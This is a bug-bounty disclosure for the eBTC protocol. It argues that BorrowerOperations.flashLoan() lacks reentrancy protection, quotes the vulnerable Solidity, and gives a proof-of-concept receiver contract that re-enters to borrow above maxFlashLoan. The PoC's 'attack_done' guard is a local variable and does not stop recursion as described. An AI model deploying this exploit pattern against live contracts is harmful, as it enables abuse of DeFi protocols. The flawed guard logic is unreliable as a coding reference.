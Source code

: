 
# Reentrancy on BorrowerOperations allows users to borrow greater than Max Flash Loan

Submitted on Sat Feb 24 2024 13:57:39 GMT-0400 (Atlantic Standard Time) by @shanb1605 for [Boost | eBTC](https://immunefi.com/bounty/ebtc-boost/)

Report ID: #28713

Report type: Smart Contract

Report severity: Insight

Target: https://github.com/ebtc-protocol/ebtc/blob/release-0.7/packages/contracts/contracts/BorrowerOperations.sol

Impacts:
- Contract fails to deliver promised returns, but doesn't lose value

## Description
***Permalink:*** https://github.com/ebtc-protocol/ebtc/blob/a96bd000c23425f04c3223a441a625bfb21f6686/packages/contracts/contracts/BorrowerOperations.sol#L1091

## Brief/Intro
The `flashLoan()` allows users to borrow ebtc on BorrowerOperations. The amount that can be borrowed is limited to maxFlashLoan(token) means one can borrow within the maximum limit of the amount. This limit can be bypassed with a reentrant call on the `flashLoan()` function.

## Vulnerability Details
The BorrowerOperations contract misses reentrancy protection on flashLoan() which leads to borrowing over the max borrowing limit of the token.

```solidity
    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external override returns (bool) {
        require(amount > 0, "BorrowerOperations: 0 Amount");
        uint256 fee = flashFee(token, amount); // NOTE: Check for `eBTCToken` is implicit here // NOTE: Pause check is here
        require(amount <= maxFlashLoan(token), "BorrowerOperations: Too much");

        // Issue EBTC
        ebtcToken.mint(address(receiver), amount);

        // Callback
        require(
            receiver.onFlashLoan(msg.sender, token, amount, fee, data) == FLASH_SUCCESS_VALUE,
            "IERC3156: Callback failed"
        );

        // Gas: Repay from user balance, so we don't trigger a new SSTORE
        // Safe to use transferFrom and unchecked as it's a standard token
        // Also saves gas
        // Send both fee and amount to FEE_RECIPIENT, to burn allowance per EIP-3156
        ebtcToken.transferFrom(address(receiver), feeRecipientAddress, fee + amount);

        // Burn amount, from FEE_RECIPIENT
        ebtcToken.burn(feeRecipientAddress, amount);

        emit FlashLoanSuccess(address(receiver), token, amount, fee);

        return true;
    }
```

## Impact Details
***Contract fails to deliver promised returns, but doesn't lose value:*** The contract promises to lend within the maximum flash loan amount to the users. However, the malicious users can re-enter the `flashloan()` function and borrow above the maximum limit. Hence, the contract fails to deliver the promise.

## References
MakerDao has Reentrancy Protection on the FlashLoan module: https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L74

https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L137

        
## Proof of concept
## Proof of Concept
* First `call_Flashloan()` is executed to borrow the max amount of ebtc.
* Inside `onFlashLoan` `some_actions()` will executed to borrow again the ebtc from the BorrowerOperations contract.
* It sets `attack_done = true` to prevent an unbounded loop.
* Further actions will be carried out with the Flash Loan amount.

```solidity
pragma solidity ^0.8.0;

interface BorrowerOperations {
    function flashLoan(address receiver,address token,uint256 amount,bytes calldata data) external;
}

contract FlashLoan_Receiver {
    bytes32 public constant FLASH_SUCCESS_VALUE = keccak256("ERC3156FlashBorrower.onFlashLoan");

    function call_Flashloan() external {
        BorrowerOperations(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
    }

    function onFlashLoan(address,address,uint256,uint256,bytes memory) external returns(bytes32) {
        some_actions();
        return FLASH_SUCCESS_VALUE;
    }

    function some_actions() internal {
        bool attack_done;
        if(!attack_done) {
            attack_done = true;
            BorrowerOperations(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
        }
    }

}
```